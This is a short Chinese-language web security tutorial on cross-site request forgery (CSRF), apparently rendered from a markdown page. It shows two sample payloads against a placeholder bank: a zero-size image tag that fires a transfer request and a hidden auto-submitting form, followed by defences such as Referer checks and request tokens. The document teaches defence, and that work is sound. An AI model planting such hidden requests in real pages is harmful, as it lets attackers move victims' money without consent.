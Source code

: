 #### 攻击手段：

1. 譬如在网站内的图片资源中潜入恶意的转账操作

```html
<img src="http://www.bank.example/transfer?toBankId=hello&amount=1000000" width="0" height="0" />
```

2. 构建恶意的隐藏表单，并通过脚本提交恶意请求

```html
<iframe style="display: none;" name="csrf-frame"></iframe>
<form method="POST" action="http://www.bank.example/transfer" target="csrf-frame" id="csrf-form">
    <input type="hidden" name="toBankId" value="hello" />
    <input type="hidden" name="amount" value="1000000" />
    <input type="submit" value="submit" />
</form>
<script>
    document.getElementById('csrf-form').submit();
</script>
```

#### 防御手段：

-   验证 HTTP Referer 字段（非常简单，但是鉴于客户端并不可信任，所以并不是很安全）
    （防止 CSRF，检查 Referer 字段简单直接，但是其完全依赖浏览器发送正确的 Referer 字段。
    虽然 http 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，
    亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。）

-   在请求地址中添加 token 并验证
    （譬如 post 中，以参数的形式加入一个随机产生的 token）

参考：

-   [AJAX 请求真的不安全么？谈谈 Web 安全与 AJAX 的关系](https://segmentfault.com/a/1190000012693772)
